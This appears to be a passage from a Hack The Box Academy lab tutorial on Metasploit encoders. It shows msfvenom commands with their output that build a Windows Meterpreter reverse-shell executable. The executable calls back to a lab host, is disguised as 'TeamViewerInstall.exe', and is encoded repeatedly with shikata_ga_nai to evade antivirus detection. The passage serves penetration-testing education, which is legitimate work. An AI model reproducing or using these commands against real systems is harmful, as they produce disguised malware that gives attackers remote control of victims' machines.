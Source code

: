 Take the above example just as that—a hypothetical example. If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up `msfvenom`, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:

Encoders

```
th1nyunb0y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the `exe` format, called TeamViewerInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse_tcp shell payload, encoded once with the Shikata Ga Nai scheme. Let us take the result and upload it to VirusTotal.

![https://academy.hackthebox.com/storage/modules/39/S8_SS01.png](https://academy.hackthebox.com/storage/modules/39/S8_SS01.png)

One better option would be to try running it through multiple iterations of the same Encoding scheme:

Encoders

```
th1nyunb0y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe

```
